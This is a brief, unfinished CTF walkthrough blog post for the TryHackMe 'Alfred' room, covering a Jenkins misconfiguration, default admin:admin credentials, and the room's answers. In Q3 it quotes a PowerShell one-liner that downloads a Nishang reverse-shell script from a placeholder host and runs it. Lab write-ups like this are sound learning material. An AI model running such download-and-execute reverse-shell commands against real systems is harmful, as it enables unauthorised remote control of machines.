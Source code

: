 ```yaml
---
layout: post
title: Alfred
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, windows, Jenkins, Nishang]
---
```

![Basic Pentesting](./assets/alfred.png){: .right }{: w="200" h="200" }
## Walkthrough
[https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

**Difficulty level:** Easy

## Task 1: Initial Acess
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


### Questions

Q1. How many ports are open? (TCP only)

> "3"

Q2. What is the username and password for the login panel? (in the format username:password)

> "admin:admin"

Q3. Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server


> "No answer needed"

Q4. What is the user.txt flag? 

> ""

### MyWalk

Several tries even following several walkthroughs without success!! No connection was made on the listener. Also on discord there's some people showing problems on receiving the connection from target.  
To try again later, or following one of the latest walkthrough:

https://olivierkonate.medium.com/  alfred-tryhackme-writeup-d3dca737e0fc

